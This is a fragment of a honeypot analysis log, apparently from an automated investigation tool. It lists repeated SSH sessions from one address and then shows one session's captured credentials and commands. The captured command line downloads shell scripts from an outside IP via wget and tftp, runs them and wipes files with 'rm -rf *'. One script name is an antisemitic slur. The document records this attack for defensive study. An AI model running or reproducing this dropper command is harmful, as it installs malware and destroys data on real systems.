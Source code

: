 -> 172.31.5.68:2222 Duration: 0.52s, Session c772c4da67f5 SSH 138.197.148.152:41782 -> 172.31.5.68:2222 Duration: 0.52s, Session 65561f34ab58 SSH 138.197.148.152:44258 -> 172.31.5.68:2222 Duration: 0.52s, Session 4923a4dae9f1 SSH 138.197.148.152:46724 -> 172.31.5.68:2222 Duration: 0.50s, Session 938fb4c80fc6 SSH 138.197.148.152:49300 -> 172.31.5.68:2222 Duration: 0.52s, Session 33a561e70191 SSH 138.197.148.152:53266 -> 172.31.5.68:2222 Duration: 0.53s, Session 53ee38fb26f3 SSH 138.197.148.152:53940 -> 172.31.5.68:2222 Duration: 0.52s, Session 97bf6564c2e8 SSH 138.197.148.152:56002 -> 172.31.5.68:2222 Duration: 0.52s, Session ee1b19b28b9a SSH 138.197.148.152:56694 -> 172.31.5.68:2222 Duration: 0.52s, Session cdb14dd38319 SSH 138.197.148.152:57548 -> 172.31.5.68:2222 Duration: 0.51s, Session cf75f6a4a3f9 SSH 138.197.148.152:60346 -> 172.31.5.68:2222 Duration: 0.52s, Session 7ea277bfc997 SSH 138.197.148.152:34130 -> 172.31.5.68:2222 Duration: 0.52s, Session 96ec24b034b0 SSH 138.197.148.152:37310 -> 172.31.5.68:2222 Duration: 0.52s, Session 1a8fedca24ca SSH 138.197.148.152:40718 -> 172.31.5.68:2222 Duration: 0.53s, Session 3ffe3d0f58bd SSH 138.197.148.152:41396 -> 172.31.5.68:2222 Duration: 0.50s, Session 60c5d1909312 SSH 138.197.148.152:44134 -> 172.31.5.68:2222 Duration: 0.53s, Session 4d5b6a561f71 SSH 138.197.148.152:44854 -> 172.31.5.68:2222 Duration: 0.51s, Session 12f105e666c1 SSH 138.197.148.152:44936 -> 172.31.5.68:2222 Duration: 0.51s, Session eaa5bf12cae7 SSH 138.197.148.152:48558 -> 172.31.5.68:2222 Duration: 0.53s, Session 67e13c16c1e5 SSH 138.197.148.152:49674 -> 172.31.5.68:2222 Duration: 0.52s, Session 9b52b1030a80 SSH 138.197.148.152:53722 -> 172.31.5.68:2222 Duration: 0.52s, Session 3a539487680f SSH 138.197.148.152:56290 -> 172.31.5.68:2222 Duration: 0.52s, Session b1a345ee2894 SSH 138.197.148.152:56980 -> 172.31.5.68:2222 Duration: 0.53s, Session 81f089b1c708 SSH 138.197.148.152:60424 -> 172.31.5.68:2222 Duration: 0.52s, Session 428fa04f2ceb SSH 138.197.148.152:60628 -> 172.31.5.68:2222 Duration: 0.53s, Session 509054cc0bac SSH 138.197.148.152:32872 -> 172.31.5.68:2222 Duration: 0.54s, Session 8ce098204f07 SSH 138.197.148.152:36472 -> 172.31.5.68:2222 Duration: 0.52s, Session 9c34cf3b286f SSH 138.197.148.152:37304 -> 172.31.5.68:2222 Duration: 0.53s, Session bf7dcf6d3b40 SSH 138.197.148.152:41790 -> 172.31.5.68:2222 Duration: 0.52s, Session 35303cab3f63 SSH 138.197.148.152:43820 -> 172.31.5.68:2222 Duration: 0.52s, Session 9713c1c8e070 SSH 138.197.148.152:44514 -> 172.31.5.68:2222 Duration: 0.53s, Session 4e9fc4ff5453 SSH 138.197.148.152:48204 -> 172.31.5.68:2222 Duration: 0.53s, Session dde6b36c9d53 SSH 138.197.148.152:48424 -> 172.31.5.68:2222 Duration: 0.52s, Session 272e6f2ed32d SSH 138.197.148.152:49114 -> 172.31.5.68:2222 Duration: 0.54s, Session 978912c179e3 SSH 138.197.148.152:52768 -> 172.31.5.68:2222 Duration: 0.52s, Session f1ed85d16103 SSH 138.197.148.152:53084 -> 172.31.5.68:2222 Duration: 0.52s, Session db12759227b4 SSH 138.197.148.152:57860 -> 172.31.5.68:2222 Duration: 0.53s, Session 650a986d53df SSH 138.197.148.152:59696 -> 172.31.5.68:2222 Duration: 0.52s, Session 6f96ebf66395 SSH 138.197.148.152:60376 -> 172.31.5.68:2222 Duration: 0.50s, Session 1466bab2017d SSH 138.197.148.152:35818 -> 172.31.5.68:2222 Duration: 0.53s, Session 3b3b231516f3 SSH 138.197.148.152:36272 -> 172.31.5.68:2222 Duration: 0.52s, Session 561b9b69012a SSH 138.197.148.152:36942 -> 172.31.5.68:2222 Duration: 0.52s, Session 122ffc7274d8 SSH 138.197.148.152:40656 -> 172.31.5.68:2222 Duration: 0.52s}` |

**Step ID:** `step_XYtxWQFfG2AR3vtRZU7IJfsO`

**Function called:** `get_session_attrs`

| Argument | Value |
| --- | --- |
| `session_id` | `8599dd602207` |
| `attrs` | `['username', 'password', 'ssh_hassh', 'start_time', 'end_time', 'client_vars', 'commands']` |

| Output | Value |
| --- | --- |
| `username` | `root` |
| `password` | `12345678` |
| `ssh_hassh` | `92674389fa1e47a27ddd8d9b63ecd42b` |
| `start_time` | `2024-01-10 02:02:06` |
| `end_time` | `2024-01-10 02:03:08` |
| `client_vars` | `{}` |
| `commands` | `['cd /tmp \|\| cd /var/run \|\| cd /mnt \|\| cd /root \|\| cd /; wget http://213.255.246.81/fuckjewishpeople.sh; chmod 777 fuckjewishpeople.sh; sh fuckjewishpeople.sh; tftp 213.255.246.81 -c get tftp1.sh; chmod 777 tftp1.sh; sh tftp1.sh; tftp -r tftp2.sh -g 213.255.246.81; chmod 777 tftp2.sh; sh tftp2.sh; rm -rf *']` |
